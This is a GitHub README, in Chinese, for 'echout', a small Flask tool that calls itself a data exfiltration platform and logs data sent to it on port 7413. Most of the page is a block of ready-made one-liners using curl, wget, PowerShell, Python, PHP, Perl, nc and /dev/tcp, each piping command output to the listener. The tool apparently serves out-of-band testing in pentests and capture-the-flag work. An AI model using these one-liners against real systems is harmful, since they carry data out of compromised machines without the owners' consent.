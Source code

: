 # echout

数据外带平台

# 友好的日志界面

<img width="2307" height="1375" alt="image" src="https://github.com/user-attachments/assets/ca705553-791c-49d6-9d03-753fce19e7d2" />

# 外带数据的方式
```bash
pwd | curl --data-binary @- http://0.0.0.0:7413/
wget --method=POST --body-data="$(pwd)" http://0.0.0.0:7413/ -O -
ls | powershell -c "irm -Uri http://0.0.0.0:7413/ -Method POST -Body ([Console]::In.ReadToEnd())"
python3 -c 'import os,socket;b=os.popen("pwd").read();s=socket.create_connection(("0.0.0.0",7413));s.send(b"POST / HTTP/1.1\r\nHost:x\r\nContent-Length:%d\r\n\r\n%b"%(len(b),b.encode()))'
python2 -c 'import os,socket;b=os.popen("pwd").read();s=socket.create_connection(("0.0.0.0",7413));s.send("POST / HTTP/1.1\r\nHost:x\r\nContent-Length:%d\r\n\r\n%%s"%(len(b),b))'
php -r '$b=`pwd`; $s=fsockopen("0.0.0.0",7413); fwrite($s,"POST / HTTP/1.1\r\nHost:x\r\nContent-Length:".strlen($b)."\r\n\r\n$b");'
perl -e 'use IO::Socket::INET;$b=`pwd`;IO::Socket::INET->new(PeerAddr=>"0.0.0.0",PeerPort=>7413)->send("POST / HTTP/1.1\r\nHost:x\r\nContent-Length:".length($b)."\r\n\r\n$b")'
b=$(pwd); echo -ne "POST / HTTP/1.1\r\nHost: x\r\nContent-Length:${#b}\r\n\r\n$b" | nc 0.0.0.0 7413
b=$(pwd); echo -ne "POST / HTTP/1.1\r\nHost: x\r\nContent-Length: ${#b}\r\n\r\n$b" > /dev/tcp/0.0.0.0/7413
curl http://0.0.0.0:7413/$(pwd)
```

# 可供编程的链式调用
```python
class EchoRecord:
    request: Request
    date: str
    ip: str
    data: str
    headers: str
```

```python
def handle_record(record: EchoRecord):
    print(record)
```

可以在此处进行后续的处理

# how to use?

1. 安装 python3
2. `pip install flask`
3. `python echout.py`

